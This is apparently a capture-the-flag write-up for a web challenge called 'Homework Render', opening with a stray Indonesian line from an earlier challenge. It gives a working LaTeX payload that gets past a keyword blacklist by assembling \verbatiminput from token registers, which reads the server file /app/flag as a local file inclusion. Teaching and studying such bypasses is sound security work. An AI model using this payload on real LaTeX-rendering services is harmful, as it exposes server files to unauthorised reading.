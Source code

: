Setelah kita mendapatkan koordinatnya, kita tinggal mengirimkan koordinat itu ke endpoint `/chall/submit` dan kita akan mendapatkan flagnya seperti gambar dibawah:

![](https://i.imgur.com/47ZwZPO.png)

---

title: "Homework Render | Challenge"

---

Homework Render - web
===

## Description

Isn't writing math homework hard? We have created an easy-to-use homework submission portal that allows you to type up your homework. We don't think anyone can get into this server for free answers!

Author: `ap`

Connection Info:
:::info
https://hw-render.chall.lol
:::

## Exploit

![Screenshot of the challenge description](https://i.imgur.com/8ybAN3s.png)

In this challenge, we are given a website that can render LaTeX files as shown in the image above. It is known that LaTeX can be exploited to perform LFI (Local File Inclusion) by using commands like "input" to include a file in the LaTeX document. However, the website has a blacklist of certain text that cannot be used to call LaTeX commands.

After some trial and error using LaTeX commands, I discovered that we can use the following LaTeX code to gain local file inclusion and read the flag at */app/flag*:

```latex
\documentclass{article}
\RequirePackage{verbatim}
\begin{document}
\newtoks\in
\newtoks\put
\in={in}
\put={put}

\begin{verbatim\the\in\the\put}{/app/flag}\end{verbatim\the\in\the\put}
\end{document}
```

In the exploit above, we use *\RequirePackage* instead of *\usepackage* to import a package. We then use *\newtoks* to create new variables *in* and *put*. Finally, we use *\begin* and *\end* to call a string as a command, allowing us to use *\verbatiminput* to read the contents of */app/flag*.

After submitting the LaTeX code, the flag we obtain is shown below:

![](https://i.imgur.com/8RsTwYK.png)
